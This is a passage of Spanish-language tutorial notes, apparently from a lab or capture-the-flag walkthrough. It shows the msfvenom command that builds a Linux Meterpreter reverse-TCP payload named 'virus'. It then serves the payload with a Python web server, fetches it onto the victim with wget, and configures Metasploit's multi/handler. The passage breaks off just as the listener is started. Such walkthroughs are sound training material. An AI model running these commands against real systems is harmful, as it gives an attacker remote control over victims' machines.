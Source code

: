 - Abrimos otro terminal , nos movemos al escritorio y nos creamos un payload con msfvemon.
    
    Lo que vamos ha hacer es crear un ejecutable que directamente nos de una sesión de meterpreter en Metasploit.
    
    ```Bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
    ```
    
    ![[Imagenes/image 21 7.png|image 21 7.png]]
    

  

- Creamos un servidor web con Python para compartir el archivo con la maquina victima.
    
    ```Bash
    python3 -m http.server 80
    ```
    
    ![[Imagenes/image 22 7.png|image 22 7.png]]
    
      
    
- Nos vamos al terminal donde habíamos conseguido entrar y nos subimos el archivo a la maquina victima.
    
    `wget 10.0.3.4/virus`
    
    ![[Imagenes/image 23 7.png|image 23 7.png]]
    

  

- Abrimos el Metasploit
    
    ![[Imagenes/image 24 6.png|image 24 6.png]]
    
      
    
    - Cargamos el **multi/handler**
        
        `use /multi/handler`
        
        ![[Imagenes/image 25 6.png|image 25 6.png]]
        

- Miramos las opciones y ponemos las que necesitemos. Tenemos que tener qen cuenta que **debemos cambiar también el payload por que no es el mismo que el de nuestro archivo virus.**
    
    `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
    
    `set LHOST 10.0.3.4`
    
    `show options`
    
    ![[Imagenes/image 26 4.png|image 26 4.png]]
    

  

- Lo ejecutamos para ponerlo a la escucha.
    